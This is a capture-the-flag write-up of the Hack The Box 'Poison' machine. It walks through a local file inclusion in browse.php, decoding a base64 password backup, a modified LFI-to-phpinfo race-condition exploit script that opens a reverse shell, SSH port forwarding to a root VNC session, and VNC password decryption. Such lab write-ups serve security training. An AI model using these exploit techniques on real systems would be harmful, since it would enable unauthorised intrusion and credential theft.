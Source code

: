 ```yaml
---
"title": "Hack The Box - Poison"
"date": 2020-07-22
"tags": ["freebsd", "medium", "vnc", "lfi", "race_condition"]
"keywords": ["freebsd", "medium", "vnc", "lfi", "race_condition"]
"categories": "HackTheBox OSCP-Like"
"author": "Ghostbyt3"
"description": "Poison is an Medium box, getting initial is by finding the LFI and\
  \ doing race condition or we can get the ssh password of the user directly by decoding\
  \ the base64 and root is port forwarding VNC to our machine and login it as root."
"featured_image": "/img/htb-poison/Untitled.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "HackTheBox OSCP-Like - Writeup"
---
```



![Untitled](/img/htb-poison/Untitled.png)

Poison is an Medium box, getting initial is by finding the LFI and doing race condition or we can get the ssh password of the user directly by decoding the base64 and root is port forwarding VNC to our machine and login it as root.

Link: [https://www.hackthebox.eu/home/machines/profile/132](https://www.hackthebox.eu/home/machines/profile/132)

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results

```bash
PORT   STATE SERVICE  VERSION
22/tcp open  ssh      OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  ssl/http Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: FreeBSD 11.0-RELEASE - 12.0-CURRENT (97%), FreeBSD 11.0-STABLE (95%), FreeBSD 11.0-CURRENT (94%), FreeBSD 11.0-RELEASE (94%), FreeBSD 9.1-STABLE (92%), FreeBSD 7.0-RELEASE (91%), FreeBSD 12.0-CURRENT (90%), Sony Playstation 4 or FreeBSD 10.2-RELEASE (90%), FreeBSD 7.0-RELEASE-p2 - 7.1-PRERELEASE (89%), FreeNAS 9.10 (FreeBSD 10.3-STABLE) (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   203.44 ms 10.10.14.1
2   203.51 ms 10.10.10.84
```

## HTTP Enumeration

This webpage contains some php files, the `Scriptname` will helps us to diplay them.

![Untitled](/img/htb-poison/Untitled%201.png)

Here I tried to view `phpinfo` and it actually worked and also note that parameter helps to locate the files.

![Untitled](/img/htb-poison/Untitled%202.png)

Likewise I started checking all the files. Here we can see one more file called `pwdbackup.txt`

![Untitled](/img/htb-poison/Untitled%203.png)

## Getting User Shell

### Method 1

Checking that file reveals that it contains some base64 encoded stuff and its 13times encoded.

![Untitled](/img/htb-poison/Untitled%204.png)

So I just decoded that multiple times using CyberChef and I got a password thing.

![Untitled](/img/htb-poison/Untitled%205.png)

We know the `backup.php` uses a parameter called `file` so I tried for any LFI possible and I got `/etc/passwd` Here can see another user called charix.

![Untitled](/img/htb-poison/Untitled%206.png)

Tried login with ssh with the creds we got `charix : Charix!2#4%6&8(0`

![Untitled](/img/htb-poison/Untitled%207.png)

### Method 2

We know that we can view PHP Info and there is also LFI and  that uses race condition and can turn an LFI vulnerability to a remote code execution (RCE) vulnerability. There is a python script for this.

> [https://github.com/M4LV0/LFI-phpinfo-RCE/blob/master/exploit.py](https://github.com/M4LV0/LFI-phpinfo-RCE/blob/master/exploit.py)

And I changed some few things.

- Give the exact location of phpinfo.php
- Change the GET request to /browse.php?file= because this is where we found LFI

```py
REQ1="""POST /phpinfo.php?a="""+padding+""" HTTP/1.1\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script   
    LFIREQ="""GET /browse.php?file=%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
```

- Added my IP address and the port which I need to Listen

Now if I run the script

![Untitled](/img/htb-poison/Untitled%208.png)

I got the shell as `www`

## Privilege Escalation

When checking the home directory, I found `secret.zip`

![Untitled](/img/htb-poison/Untitled%209.png)

Downloaded to my machine and extracted that, it asked for password and I used the same Charix ssh password and it extracted.

![Untitled](/img/htb-poison/Untitled%2010.png)

But the file looks different.

When checking the running process, I found that VNC is running as root.

```bash
charix@Poison:~ % ps aux
.
.
.
root    529   0.0  0.9  23620  9064 v0- I    05:59     0:00.22 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800
```

I checked whether the port is open and port 5901 is the port usually VNC runs.

```bash
charix@Poison:~/.vnc % netstat -an
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0      0 10.10.10.84.64487      10.10.14.20.3333       ESTABLISHED
tcp4       0      0 10.10.10.84.80         10.10.14.20.41928      CLOSE_WAIT
tcp4       0     44 10.10.10.84.22         10.10.14.20.36254      ESTABLISHED
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
udp4       0      0 *.514                  *.*
```

So I did a local port forwarding of the port 5901 to my machine.

```bash
root@kali:~/CTF/HTB/Boxes/Poison# ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84
```

Now We can try connecting to it by using vncviewer and it asks for password, So I guessed that the `secret` file we got from the zip can be password.

![Untitled](/img/htb-poison/Untitled%2011.png)

And It worked I logged in as root.

![Untitled](/img/htb-poison/Untitled%2012.png)

We own the box!!

We can decrypt the VNC password using this [tool](https://github.com/trinitronx/vncpasswd.py).

```bash
root@kali:~/CTF/HTB/Boxes/Poison/vncpasswd.py# python vncpasswd.py -d -f secret
Decrypted Bin Pass= 'VNCP@$$!'
Decrypted Hex Pass= '564e435040242421'
```